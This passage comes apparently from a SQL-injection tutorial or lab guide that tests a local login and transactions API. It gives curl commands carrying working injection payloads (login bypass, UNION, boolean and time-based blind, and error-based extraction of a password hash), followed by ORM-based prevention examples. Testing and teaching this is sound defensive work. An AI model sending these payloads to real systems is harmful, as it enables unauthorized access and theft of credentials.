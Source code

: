 ### 2. Dynamic Analysis
```bash
# Test login bypass
curl -X POST http://localhost:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' OR '\''1'\''='\''1", "password": "anything"}' \
  -v

# Test UNION-based injection
curl -X POST http://localhost:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' UNION SELECT 1,2,'\''admin'\'','\''hash'\'',5,6,7,8,9 FROM user--", "password": "anything"}' \
  -v

# Test boolean-based blind injection
curl -X POST http://localhost:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' AND (SELECT COUNT(*) FROM user WHERE username='\''admin'\'')>0--", "password": "anything"}' \
  -v

# Test time-based blind injection
curl -X POST http://localhost:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' AND (SELECT CASE WHEN (username='\''admin'\'') THEN randomblob(100000000) ELSE randomblob(1) END FROM user)--", "password": "anything"}' \
  -v

# Test error-based injection
curl -X POST http://localhost:5000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username": "admin'\'' AND CAST((SELECT password_hash FROM user LIMIT 1) AS INT)--", "password": "anything"}' \
  -v

# Test data extraction
curl -X GET "http://localhost:5000/api/transactions?user_id=1%27%20UNION%20SELECT%20*%20FROM%20user--" \
  -H "Authorization: Bearer <your-token>" \
  -v
```

## Prevention Techniques

### 1. Use ORM Methods
```python
# Instead of raw SQL
user = User.query.filter_by(username=username).first()

# For complex queries
from sqlalchemy import and_, or_
users = User.query.filter(
    and_(
        User.active == True,
        or_(
            User.role == 'admin',
            User.department == 'security'
        )
    )
).all()
```

